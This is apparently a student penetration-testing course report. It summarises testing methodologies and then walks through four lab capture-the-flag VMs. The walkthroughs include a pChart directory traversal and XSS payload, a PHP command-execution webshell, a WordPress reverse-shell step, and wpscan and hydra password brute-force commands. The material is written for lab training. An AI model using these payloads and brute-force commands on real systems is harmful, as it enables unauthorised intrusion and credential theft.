# Offensive Security challenge report

## Introduction

The Offensive Security challenge report It details all of the efforts made in order to pass the Offensive Security exam.
This report will be scored on all parts of the exam for correctness and completeness.
The goal of this report is to guarantee that the student has a thorough understanding of penetration testing methodology as well as the technical knowledge required to pass the Offensive Security exam.

## Objective

The goal of this exam is to conduct an internal penetration test on the network of Offensive Security Exam.
The learner is expected to take a deliberate approach to achieving the objective aims.
This test should be modeled after a real penetration test, from start to finish, including the overall report.
Not only the actual penetration, but also the methodology used, as well as the majority of the often used methodologies, must be explained and analyzed, with the following justification of why the used methodology has been selected

## Requirements

This penetration testing report must be completely filled out by the student, and it must include the following sections:
- Methodologies analysis
- Methodologies selection
- Auditory with the selected methodology
    - Pentesting report

# Methodologies analysis
These are the five most commonly used methodologies out there:
## OSSTMM
OSSTMM (Open Source Security Testing Methodology Manual) provides a methodology for a comprehensive safety test, referred to in this document as an OSSTMM audit. An OSSTMM audit is an accurate measurement of safety at the operational level, which avoids assumptions and anecdotal evidence.

As a methodology, it is designed to be consistent and repeatable. As an open source project, it allows any security testing professional to contribute ideas for more accurate, concrete and efficient security testing. It also allows for the free dissemination of information and intellectual property.

Environments are significantly more complex compared to previous years due to events such as remote operations, virtualization, cloud computing. And also other new types of infrastructure cannot think of performing simple tests only for desktops, servers or routing equipment.

- Therefore, OSSTMM test version 3 covers all human, physical, wireless, telecom and data network channels.
- This also makes it perfectly comfortable for testing cloud computing, virtual infrastructure, messaging middleware, infrastructure and mobile communications.
- And also, high-security locations, human resources, trusted computing and any logical process that covers all channels and requires a different type of security testing.
- A set of attack surface metrics, called ravs, provides a powerful and highly flexible tool that provides a graphical representation of state and shows state changes over time.
- This integrates well with a "dashboard" that is beneficial for internal management and staff. And also external testing, which allows comparison/combination of the two.
- It can perform quantitative risk management of the report with OSSTMM audit findings, providing an improved result due to a free and more accurate results error.
## ISSAF
ISSAF (Information Systems Assessment Framework)
is designed to evaluate your network, system and control applications. It is focused on three phases and nine evaluation steps.

The approach includes the following three phases:

1. Planning and Preparation
2.  Evaluation
3.  Reporting, Cleanup and Object Destruction.

**Planning and Preparation**

This phase comprises the initial steps to exchange information, plan and prepare for the test. Prior to conducting the formal test agreement will be signed by both parties. It forms the basis for this task and mutual legal protection. It will also specify the participation of the team, the exact dates, the times of the test, the escalation of privileges and other arrangements.

The following activities are foreseen in the following phase

1. Identification of contact persons on both sides.
2.  Opening Meeting to identify the scope, approach and methodology, according to test cases, privilege escalation and Paths.

**Evaluation**

This is the phase where the penetration test is performed. The evaluation phase in a layered approach should be followed as shown in the following figure.

1. Information Gathering
2. Network Mapping
3.  Vulnerability identification
4.  Penetration
5.  Gaining access and privilege escalation
6.  Enumeration
7.  Compromising remote users and sites
8.  Maintain Access


[](http://2.bp.blogspot.com/_NcZQ3njhqn8/SeSxbyfodYI/AAAAAAAAADc/nOW3hjQNfTE/s1600-h/453px-Image001.png)


**Reports, Cleanup and Destruction of Objects**

In this phase reports are submitted

In the course of penetration testing in case a critical issue is identified, it should be reported immediately to ensure that the organization is aware of it. At this critical point your expedition should be discussed and countermeasures should be sought to resolve the critical issues identified in the test.

After completion of all test cases defined in the scope of work, a written report describing the detailed results of the tests and examinations should be prepared with recommendations for improvement. The report should follow a well-documented structure. Things that should be included in the report are presented in the following list:

1. Management Summary
2.  Project Scope
3.  Tools used (including Exploits)
4.  Actual dates and times when the system testing was performed
5.  Any and all output from the tests performed (excluding vulnerability scan reports that may be included as attachments).

All information that is created and/or stored on the test systems must be removed from these systems. If these are for some reason not possible to remove from a remote system, all these files (with their location) should be mentioned in the technical report so that the customer and the technical staff would be able to delete these after the report has been received.

## OWASP
**What is OWASP**

OWASP (Open Web Application Security Project) is a worldwide non-profit project that seeks to improve software security in general. To this end, the organization has provided a series of tools and documents that explain the most common security holes in any information system. Needless to say, all OWASP materials are freely available (free of charge) for free consultation and use.

**What exactly are its contents?**

Currently OWASP actually has several projects in which the categories Tool Projects, Code Projects and Documentation Projects stand out. The best known documentation project is the TOP TEN, which lists the 10 most common security risks and how to prevent them. In this top, you will recognize terms such as SQL INJECTION, Cross-Site Scripting (XSS) and Broken Authentication. Without further ado, I leave you with this list of ten security risks or vulnerabilities.

## OWASP Top Ten


**A01: 2021 - Broken Access Control (formerly A05 OWASP Top 10 2017)**

Topping the list as the most serious web application security risk, broken access control had 34 CWEs assigned to it. That's more occurrences in applications than in any other category. A web application's access control model is closely related to the content and functions provided by the site. If not configured correctly, hackers can gain access to sensitive files and deface the site.

**A02: 2021 - Cryptographic flaws (formerly A03 OWASP Top 10 2017)**

Cryptanalytic software involves different software programs that are used to decrypt encryptions. Formally called Confidential Data Exposure, a cryptographic flaw means that information that is supposed to be protected from untrusted sources has been disclosed to attackers. Hackers can access information such as credit card processor data or other authentication credentials.

**A03: 2021 - Injection (formerly A01 OWASP Top 10 2017)**

When an attacker uses malicious SQL code to manipulate a backend database to reveal sensitive information, it is called an injection attack. Injection flaws, such as NoSQL, OS, LDAP and SQL injection, occur when untrusted data is sent to an interpreter as part of a command or query.

Cross-Site Scripting (XSS) attacks are another type of injection. Malicious scripts are injected into trusted, benign websites that can rewrite HTML page content.

Server-Side Request Forgery (SSRF) is a type of attack that can occur when a hacker can not only view unauthorized lists, delete tables and have unauthorized administrative access, but also perform remote code execution from the back-end server of a vulnerable web application.

**A04: 2021 - Insecure Design (NEW)**

This is a new category for 2021 and the focus is on risks related to design flaws. More threat models, secure design patterns and principles, and reference architectures are needed to protect against insecure designs for web pages.

This is an important addition because developers must be aware of how design and architectural concepts must be configured and implemented correctly in code. Incorrect implementation of design and architectural concepts in code can create security vulnerabilities.

**A05: 2021 - Security misconfiguration (formerly A06 OWASP Top 10 2017).**

XML external entity attacks have been incorporated into a security misconfiguration this year. It is a growing threat due to more changes in software configurations.

**A06: 2021 - Vulnerable and obsolete components (formerly A09 OWASP Top 10 2017).**

Formerly titled Use of Components with Known Vulnerabilities, this category represents a known issue that OWASP experts have found that many continue to struggle to prove risk assessment.

Many security issues have been attributed to outdated third-party software components. This is compounded by the growing concern that time to exploit is shrinking and organizations are not patching or remediating vulnerabilities fast enough.

**A07: 2021 - Identification and authentication flaws (formerly A02 OWASP Top 10 2017).**

Authentication vulnerabilities as a category have fallen from the second position in the top ten because the increased availability of standardized frameworks seems to be helping. Previously called a broken authentication vulnerability because it can result in a denial of service when user accounts cannot be authenticated. Multifactor authentication is not implemented in most cases. It now includes CWEs that are more related to identification failures.

**A08: 2021 - Data and software integrity failures (NEW)**

As a new category for 2021, focuses on making assumptions related to software upgrades, critical data and CI/CD pipelines without verifying integrity.

**A8: 2017 - Insecure deserialization is now part of this broader category.**

Growing concern over recent attacks associated with the SolarWinds breach and protection of the build environment increases the importance of this threat. Software integrity has been specifically mentioned in the Cybersecurity Executive Order, section 4.

**A09: 2021 - Security tracking and logging flaws (formerly A10 OWASP Top 10 2017).**

This category has been expanded to include more types of flaws that can directly affect visibility, incident alerts and forensics.

**A10: 2021 - Server-side request forgery (NEW).**

Data shows that there is a low incidence rate for this category that was just added to the Top 10.


## PTES
PTES (Penetration Testing Execution Standard) is a standard which provides a common language to be followed by all penetration testing professionals and security assessment professionals.

PTES provides the client with a reference on the security posture so that they are in a better position to perceive the findings obtained during a penetration test.

PTES is designed as the minimum necessary to be performed as part of a complete penetration test. The standard contains many different levels of services, which should be part of advanced penetration testing.

## NIST (NIST SP800-115)
NIST (The National Institute of Standards  and Technology) was published in September 2008 by the U.S. government's National Institute of Standards and Technology (NIST). It describes guidelines on how an Information Security Assessment (ISA) should be conducted and conceptualizes it as the process of determining how effectively an entity is assessed against specific security objectives. It defines as assets and objects of evaluation the servers, data networks, procedures and people.

Three assessment methods can be used to perform ESI:

- **Testing**: It is the process of putting under test one or more evaluation objects under specific conditions to compare actual and expected behavior.
- **Scrutiny**: The process of checking, inspecting, reviewing, observing, studying, or analyzing one or more evaluation objects to facilitate understanding, clarification, or to obtain evidence.
- **Interview**: The process of conducting discussions and exchanges with groups of people with the objective of facilitating understanding, clarification or identifying the location of evidence associated with the objects of evaluation.

The results obtained through the evaluation methods are used to determine the effectiveness of the entity's security controls.

NIST SP 800-115 proposes an ESI process composed of at least three phases:

- **Planning:** Classified as a critical phase for the success of the ESI. It involves gathering information about the assets to be assessed, the threats of interest against those assets, and the security controls that can be used to mitigate those threats.  With the principle that an ESI is a project, a management plan should be established that includes specific goals and objectives, scope, requirements, team roles and responsibilities, constraints, success factors, constraints, resources, task planning and deliverables.
- **Execution:** The main objective of this phase is to identify vulnerabilities and test them according to the established planning. Appropriate assessment methods and techniques should be applied according to the ESI objective.
- **Post-Execution:** Focused on the analysis of the vulnerabilities found to determine the root causes of their presence, establish recommendations for their mitigation and develop the final report.


# Methodologies selection

I utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Exam environments is secured.
Below is a breakout of how I was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

<!-----

You have some errors, warnings, or alerts. If you are using reckless mode, turn it off to see inline alerts.
* ERRORs: 0
* WARNINGs: 0
* ALERTS: 66

Conversion time: 11.168 seconds.


Using this Markdown file:

1. Paste this output into your source file.
2. See the notes and action items below regarding this conversion run.
3. Check the rendered output (headings, lists, code blocks, tables) for proper
   formatting and use a linkchecker before you publish this page.

Conversion notes:

* Docs to Markdown version 1.0β33
* Mon Mar 14 2022 02:31:10 GMT-0700 (PDT)
* Source doc: Challenge
* This document has images: check for >>>>>  gd2md-html alert:  inline image link in generated source and store images to your server. NOTE: Images in exported zip file from Google Docs may not appear in  the same order as they do in your doc. Please check the images!


WARNING:
You have 6 H1 headings. You may want to use the "H1 -> H2" option to demote all headings by one level.

----->


# **VM1 - Metasploit - CTF**
## Information Gathering




The objective of this exercise is to obtain the flag. To do that you should be able to exploit a vulnerability and to scale privileges (post-explotation).

Download this[ .ova file](https://www.dropbox.com/s/jrttxttxb5imks9/metasploit_ctf.ova?dl=0) (pass: Macc2022) and open it using VirtualBox.

1.- First of all, identify the IP address of the new MV using[ netdiscover](https://kalilinuxtutorials.com/netdiscover-scan-live-hosts-network/).

2.- Having the IP address, use Nmap to identify the services installed in the MV.

We have been able to observe that the ftp service is active. We will check if it is possible to authenticate anonymously.


## Explotation

4.- If it is possible, connect to the server and check if there is something interesting there.





5.- There aren't any interesting files. As we have observed that the http service was active, let's check the web page.





6.- The website doesn't show anything interesting either. Try dirbuster to see what services it has on the web. You can also use the command:
```shell
dirb http://192.168.56.102
```


7.- In the results you can see interesting applications such as phpmyadmin, cms, drupal...





8.- From now on, we should analyze each of these applications. We'll start with Drupal. Open the Drupal page in the browser.





9.- We need to know the version of drupal to look for exploits.





10.- Search an exploit for that version of the application. You can use searchsploit or directly metasploit.

11.- Metasploit.

12.- Chose an exploit and start working with it.

13.- Configuration and execution:





14.- We're in. Using the[ Meterpreter](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) session, the next step is the identification of the operating system and its version.





15.- Is there an exploit that allows us to escalate privileges on that operating system?





16.- Yes, there is. But you need to run that exploit inside the target machine.Download the exploit and make it available on a server.





17.- Use wget to download the exploit inside the target machine.





18.- Compile and execute the exploit.


## Privilege Escalation

19.- The flag is in the /root directory. Read it and write the content in a report.





# VM2 - MU1


## Information Gathering

1.- First of all, identify the IP address of the new MV using[ netdiscover](https://kalilinuxtutorials.com/netdiscover-scan-live-hosts-network/).








Our target IP is **192.168.56.111**

2.- Having the IP address, use Nmap to identify the services and some vulnerabilities installed in the MV.





We don’t have any interesting vulnerability available out there to gain root permissions. So let’s try to attack the available services.


## Exploitation

Let’s try to attack the port 80 where is running a **Apache 2.2.23**.

Let’s investigate about some metadata:





We found an interesting service called pChart 2.1.3 with the following path **pChart2.1.3/index.php **

Let’s do a searchsploit of this service:





Reading the exploit with:

```shell
cat /usr/share/exploitdb/exploits/php/webapps/31173.txt_

# Exploit Title: pChart 2.1.3 Directory Traversal and Reflected XSS

# Date: 2014-01-24

# Exploit Author: Balazs Makany

# Vendor Homepage: www.pchart.net

# Software Link: www.pchart.net/download

# Google Dork: intitle:"pChart 2.x - examples" intext:"2.1.3"

# Version: 2.1.3

# Tested on: N/A (Web Application. Tested on FreeBSD and Apache)

# CVE : N/A

[0] Summary:

PHP library pChart 2.1.3 (and possibly previous versions) by default

contains an examples folder, where the application is vulnerable to

Directory Traversal and Cross-Site Scripting (XSS).

It is plausible that custom built production code contains similar

problems if the usage of the library was copied from the examples.

The exploit author engaged the vendor before publicly disclosing the

vulnerability and consequently the vendor released an official fix

before the vulnerability was published.

[1] Directory Traversal:

**"hxxp://localhost/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd"**

The traversal is executed with the web server's privilege and leads to

sensitive file disclosure (passwd, siteconf.inc.php or similar),

access to source codes, hardcoded passwords or other high impact

consequences, depending on the web server's configuration.

This problem may exists in the production code if the example code was

copied into the production environment.

Directory Traversal remediation:

1) Update to the latest version of the software.

2) Remove public access to the examples folder where applicable.

3) Use a Web Application Firewall or similar technology to filter

malicious input attempts.

[2] Cross-Site Scripting (XSS):

"hxxp://localhost/examples/sandbox/script/session.php?&lt;script>alert('XSS')&lt;/script>

This file uses multiple variables throughout the session, and most of

them are vulnerable to XSS attacks. Certain parameters are persistent

throughout the session and therefore persists until the user session

is active. The parameters are unfiltered.

Cross-Site Scripting remediation:

1) Update to the latest version of the software.

2) Remove public access to the examples folder where applicable.

3) Use a Web Application Firewall or similar technology to filter

malicious input attempts.

[3] Disclosure timeline:

2014 January 16 - Vulnerability confirmed, vendor contacted

2014 January 17 - Vendor replied, responsible disclosure was orchestrated

2014 January 24 - Vendor was inquired about progress, vendor replied

and noted that the official patch is released.
```


Let’s try the Directory Transversal, and we obtain the following:

Directory transversal is:

_a web security vulnerability that allows an attacker to read arbitrary files on the server_

[https://portswigger.net/web-security/file-path-traversal](https://portswigger.net/web-security/file-path-traversal)





Knowing this, we can easily obtain the flag by going to /root/flag.txt directory:





## Privilege Escalation

We have been able to get to the server’s files. Now let’s see the source code of the main page and we can see the Apache configuration file location:





Let’s obtain the Apache configuration file by applying the Directory Transversal:





Let’s skip the initial default configuration useless text and focus on the last part of the file where the new configuration (juicy & interesting) is set:





We can see that it uses Mozilla/4.0 user-agent in the port 8080.

By definition, “_The User-Agent request header is a character string that lets servers and network peers identify the application, operating system, vendor, and/or version of the requesting user agent”_

[https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent) 

Let’s investigate further. We can try to obtain the User agent info by passing the custom header to the server and see what it returns

```shell
curl -H "User-Agent:Mozilla/4.0" http://192.168.56.111:8080
```





We see an interesting service name called phptax. let’s see whether there is an exploit for this or not.





**DISCLAIMER: from now on, the target IP has changed to 10.0.2.5**

Let’s open MSF and use the first exploit from above:





We have seen that it is using FreeBSD. We can use this to escalage privileges.





We download the 28718 exploit and we will pass it through netcat to our target machine:

**Local Machine**


**Target Machine**





Once we got our file, we restart the shell and we ensure we have the file:





Let’s compile it and exploit it.





Now we are root!


# VM3 - MU2


## Information Gathering

1.- First of all, identify the IP address of the new MV using[ netdiscover](https://kalilinuxtutorials.com/netdiscover-scan-live-hosts-network/).








Our target IP is **192.168.56.112**

2.- Having the IP address, use Nmap to identify the services and some vulnerabilities installed in the MV.








We don’t have any interesting vulnerability available out there to gain root permissions. So let’s try to attack the available services.


## Exploitation

We have seen some interesting directories such as **/admin_area**





We get the following password:

`78f3842f0201c993fec13905f2ff9ec3fdd39056`

We search for this hash in Google and we found this:





Now we try to enter into the login page:

user: admin

pass: Master





We did it!





We don’t have much more info, let’s try to get more juicy directories once we have the login credentials, using **dirbuster**:





No more juicy directories we found…

Let’s try to upload random files to the server to see how if performs.

I will upload a sample.jpg image and check the path

```shell
/uploaded_files/&lt;filename>. 
```

We know this by checking the robots.txt page (obtained with nMap) that htis directory exists.





We have managed to upload a new image.

I’ll try to upload a php file to see if we are able to execute remote code: I will upload a simple hello world php file:





We have seen that we are able to execute remote code in the server. Let’s upload a **webshell.php** file with a backdoor to execute arbitrary code:

```shell
<?php
if (isset($_REQUEST["cmd"])) {
    echo "&lt;pre>";

    $cmd = $_REQUEST["cmd"];

    exec($cmd, $results);

    foreach ($results as $r) {
        echo $r . "&lt;br/>";
    }

    echo "&lt;/pre>";

    die();
} ?>

```


Exploring the directory of the web page we find the file hint.txt that can give us some clue:





hint.txt:





Let’s explore the technawi user’s files:





Let’s try this credentials to access via ssh:





## Privilege Escalation

As technawi is already in sudoers file, it’s very easy to become root as like this:





# VM4 - MU3


## Information Gathering








The FTP can be accessed anonymously. Interesting. Let’s enter into it:





We have found a users.txt.bk file, let’s open it up:





Interesting list of users. Let’s see if each one of this users have ssh auth by password:





## Exploitation

All users except mai and john can be accessed through ssh. At the moment we don’t know much, so let’s move forward towards port 80.

In our Nmap scan we have seen that there is a URI called /backup_wordpress/, where it is actually a wordpress:





**DISCLAIMER: from now on, the target IP has changed to 10.0.2.9**

We have seen that there is a post created by the user **john** let’s see if we can brute-force his password.

```shell
sudo wpscan --url http://10.0.2.9/backup_wordpress -P /usr/share/wordlists/rockyou.txt --usernames john
```





We reach the WP Admin page!!





Now we will go to Appearance -> Editor and we will edit the 404.php page so we can add a php reverse shell script into it:





Now we navigate to this page (wp-content/themes/twentysixteen/404.php) and we have our reverse shell!





Let’s see what system is running:





We don’t have a exploit available for `Ubuntu 12.04.4` & `linux kernel 3.11.0-15-generic`. So we will try to find another way.

Let’s check the users that are in the system, and see whether they have ssh access or not.





We already know that john & mai require a public key to access through ssh, so let’s try with the rest:





OK so we can only access with the user anne. Let’s brute force her with:

```shell
hydra -l anne -P /usr/share/wordlists/10k-most-common.txt 10.0.2.9 -V ssh
```







We got the flag!

## Privilege Escalation

As anne is already part of sudoers, we do have root privileges.


# Bibliography
- OSSTMM https://ciberseguridad.com/guias/desarrollo-seguro/osstmm/
- ISSAF http://insecuredata.blogspot.com/2009/04/metodologia-de-test-de-intrusion-issaf.html
- OWASP https://blog.pleets.org/article/conoce-owasp
- PTES http://www.reydes.com/d/?q=Metodologias_Existentes
- NSIT https://henryraul.wordpress.com/2017/05/10/metodologia-de-pruebas-de-intrusion-en-la-nist-sp-800-115/ 